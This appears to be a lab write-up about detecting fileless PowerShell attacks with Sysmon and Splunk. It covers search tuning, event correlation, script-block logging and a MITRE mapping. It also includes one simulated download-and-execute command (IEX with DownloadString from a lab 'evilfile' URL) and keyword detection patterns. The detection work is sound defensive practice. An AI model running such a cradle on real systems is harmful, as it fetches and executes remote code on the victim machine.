








**<u>Scenario 2</u>**: Suspicious PowerShell Activity (Living-off-the-Land)

**<u>Attack Behavior</u>**:

The attack simulates malicious PowerShell execution using built-in Windows tooling (Living-off-the-Land). The adversary launches powershell.exe with execution policy restrictions disabled and uses in-memory script execution (IEX) to fetch remote content without writing files to disk. This behavior is commonly associated with fileless malware, initial payload delivery, and post-exploitation activity.

This mirrors:
	<ul>
		<li> Malware staging</li>
		<li> Initial access techniques</li>
		<li> Post-exploitation command execution </li>
		<li> Sttacks that evade signature-based defenses </li>
	</ul>
	
**<u>Telemetry Generated</u>**:
	<ul> EventID 1 - Process Creation
		<li> Image: powershell.exe</li>
		<li> CommandLine: includes -ExecutionPolicy Bypass, IEX, DownloadString </li>
		<li> ParentImage: process that launched powershell </li>
		<li> User </li>
		<li> ProcessId, ParentProcessId</li>
	</ul>
	<ul> EventID 3 - Network Connection
		<li> DestinationIp </li>
		<li> DestinationPort </li>
		<li> Protocol </li>
		<li> User </li>
	</ul>
	
**<u>Attack Simulation</u>**:

Goal: Detect fileless attack techniques
	<ol>
		<li> -ExecuionPolciy Bypass </li>
		<li> IEX </li>
		<li> DownloadString </li>
		<li> Net.WebClient </li>
		&emsp;- from Windows machine: 
	</ol>
```
PS>  powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://192.168.228.130:8080/evilfile')"
```

Using the following search term we can isolate such events:  

```
index=main sourcetype=XmlWinEventLog
EventID=1
"Microsoft-Windows-Sysmon"
"powershell.exe"
("ExecutionPolicy" OR "IEX" OR "DownloadString")
```



For further clarity, we format them into a table:

```
index=main sourcetype=XmlWinEventLog
EventID=1
"Microsoft-Windows-Sysmon"
"powershell.exe"
("ExecutionPolicy" OR "IEX" OR "DownloadString")
| table _time Image ParentImage User CommandLine
```



Next, lets fine tune our search to reduce false positives.  To generate a few events. For example, we're getting a lot of hits from Splunk.


	
A simple NOT "splunk*" filters these out.  The wildcard is to also filter out splunkd.

Now see one event from powershell_ise.




Because Powershell Integrated Scripting Environment is a GUI, it's less likely for a remote attacker to have access and more likely to be an admin user creating commands, so we can add this to our NOT filters.

```
index=main sourcetype=XmlWinEventLog
EventID=1
"Microsoft-Windows-Sysmon"
"powershell"
NOT "powershell_ise"
NOT "splunk*"
| table _time Image ParentImage User CommandLine
```

Interestingly, we see PING.EXE, which I haven't run directly myself.

I correlated the ParentProcessId

```
index=main sourcetype=XmlWinEventLog
EventID=1
ProcessId=7604
| table _time Image ParentImage ProcessId ParentProcessId CommandLine
| sort _time
```

And found it was spawned by PowerShell, which was spawned by explorer:



Here the trail stopped.  It's likely the PowerShell session launched by Explorer executed in-memory code that contained PING.EXE. EventID 1, process creation, can't show this. I had to piviot to EventID 4104, which is the execution of PowerShell Script Blocks.

I had to enable this in my SplunkUniversalForwarder inputs.conf file by adding the following stanza:

```
[WinEventLog://Microsoft-Windows-PowerShell/Operational]
disabled = 0
index = main
renderXml = true
```

and restarting SplunkUniversalForwarder.

I ran 

```
PS> powershell.exe -Command "Write-Output '4104 ingestion test'"
```

and found the results in Splunk
```
index=main sourcetype=XmlWinEventLog
EventID=4104
| rex field=_raw "<ScriptBlockText>(?<ScriptBlockText>.*?)</ScriptBlockText>"
| table _time User HostApplication ScriptBlockText
| sort _time
```

But after searching through 4104 events, I was still unable to see where a script executed ping.

Finally, I returned to my original search that showed PING.EXE was executed:

```
index=main sourcetype=XmlWinEventLog
host=DESKTOP-12C3N8K
(ProcessId=7604 OR ParentProcessId=7604)
| sort _time
| table _time EventID Image ParentImage ProcessId ParentProcessId CommandLine
```

I tried re-excuting the commands just prior to PING.EXE, but could not get PING.EXE to fire again. Attempting to execute just the IP address (192.168.228.130) on the command line did cause PING.EXE to execute, so it's possible that I made some unseen typo that attempted to run the IP address. I haven't seen unintended PINGs since the one in question, so I'll label this one unlikely to be from a malicious actor and resume where we left off before this interesting side track.

As of now, our search
```
index=main sourcetype=XmlWinEventLog
EventID=1
Image="*\\powershell.exe"
NOT ParentImage="*splunk*"
NOT User="NT AUTHORITY\\SYSTEM"
| eval host_time=_time
| fields host host_time Image ParentImage CommandLine User ProcessId
```

Returned 30 results for the day.  Further refining our search, we look for all commands that use PowerShell and have an IP address in them and place them into a table. 

```
EventID=1
"Microsoft-Windows-Sysmon"
"powershell"
NOT "powershell_ise"
NOT "splunk*"
| rex field=CommandLine "(?<dest_ip>\d{1,3}(?:\.\d{1,3}){3})"
| eval host_time=_time
| join type=inner dest_ip [
    search index=main sourcetype=suricata:json event_type=http
    | eval net_time=_time
    | fields net_time src_ip dest_ip http.hostname http.url http.status
]
| table host_time Image CommandLine dest_ip http.url http.status time_delta
| sort host_time desc
```


	
So far we have:

</ul>
<li> Tuned false positives </li>
<li> Found telemetry gaps </li>
<li> Developed correlation strategy</>


**<u>Detection Validation in Splunk</u>**:

&emsp;Primary Detection Search

```
index=main sourcetype=XmlWinEventLog EventID=1
Image="*\\powershell.exe"
CommandLine="*DownloadString*"
| table _time host Image ParentImage CommandLine User
| sort _time desc
```
&emsp;Expected information:
	<ul>
		<li> Image </li>
		<li> ParentImage </li>
		<li> CommandLine </li>
		<li> Host </li>
		<li> User </li>
	</ul>


	
And when we search for event 4104, we see three script blocks within a second of each other. Notice the subtle differences; two have the term PowerShell, one doesn't, and one has the PS prompt but with the &gt code instead of the greater than sign.  These differences may seem small but they highlight the caution needed not to make search terms too narrow.  I had a similar problem trying to get a custom alert to trigger off the user-agent field.  In some commands, the powershell command didn't send a user agent over the wire at all as evidenced by tcpdump.
	

	

**<u>MITRE ATT&CK Mapping</u>**:
		
| Tactic            | Technique | Evidence                |
| ----------------- | --------- | ----------------------- |
| Execution         | T1059     | Powershell executed IEX |
|                   |           | &ensp;on a downloaded string  |
| Defense Evasion   | T1562     | -ExecutionPolicy Bypass |
| Command & Control | T1105     | Attemped content grab   |
|                   |           | &ensp; via DownloadString|